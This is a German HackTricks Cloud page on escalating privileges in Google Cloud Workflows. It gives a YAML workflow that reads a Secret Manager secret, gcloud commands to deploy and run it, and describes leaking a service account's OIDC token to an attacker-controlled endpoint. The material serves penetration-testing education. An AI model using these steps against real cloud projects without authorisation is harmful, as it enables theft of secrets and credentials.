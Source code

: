 # GCP - Workflows Privesc

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## Workflows

Grundinformationen:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Soweit ich weiß, ist es nicht möglich, eine Shell mit Zugriff auf den Metadaten-Endpunkt zu erhalten, der die SA-Anmeldeinformationen des SA enthält, das an einen Workflow angehängt ist. Es ist jedoch möglich, die Berechtigungen des SA zu missbrauchen, indem man die auszuführenden Aktionen innerhalb des Workflows hinzufügt.

Es ist möglich, die Dokumentation der Connectoren zu finden. Zum Beispiel ist dies die [**Seite des Secretmanager-Connectors**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** In der Seitenleiste sind mehrere andere Connectoren zu finden.

Und hier finden Sie ein Beispiel für einen Connector, der ein Geheimnis druckt:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Aktualisierung über die CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Wenn Sie einen Fehler wie `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist` erhalten, **warten Sie einfach eine Minute und versuchen Sie es erneut**.

Wenn Sie keinen Webzugang haben, ist es möglich, die Ausführung eines Workflows auszulösen und zu sehen mit:

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Sie können auch die Ausgabe vorheriger Ausführungen überprüfen, um nach sensiblen Informationen zu suchen.
{% endhint %}

Beachten Sie, dass selbst wenn Sie einen Fehler wie `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` erhalten, weil Sie diese Berechtigung nicht haben, der Workflow generiert wurde.

### Leak OIDC-Token (und OAuth?)

Laut [**den Dokumenten**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) ist es möglich, Workflow-Schritte zu verwenden, die eine HTTP-Anfrage mit dem OAuth- oder OIDC-Token senden. Allerdings muss die HTTP-Anfrage mit dem Oauth-Token, wie im Fall von [Cloud Scheduler](gcp-cloudscheduler-privesc.md), an den Host `.googleapis.com` gerichtet sein.

{% hint style="danger" %}
Daher ist es **möglich, das OIDC-Token zu leaken, indem man einen von dem Benutzer kontrollierten HTTP-Endpunkt angibt**, aber um das **OAuth**-Token zu leaken, benötigen Sie **einen Bypass** für diesen Schutz. Sie können jedoch weiterhin **jede GCP-API kontaktieren, um im Namen des SA Aktionen durchzuführen**, entweder über Connectoren oder HTTP-Anfragen mit dem OAuth-Token.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Mit dieser Berechtigung anstelle von `workflows.workflows.create` ist es möglich, einen bereits bestehenden Workflow zu aktualisieren und die gleichen Angriffe durchzuführen.

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
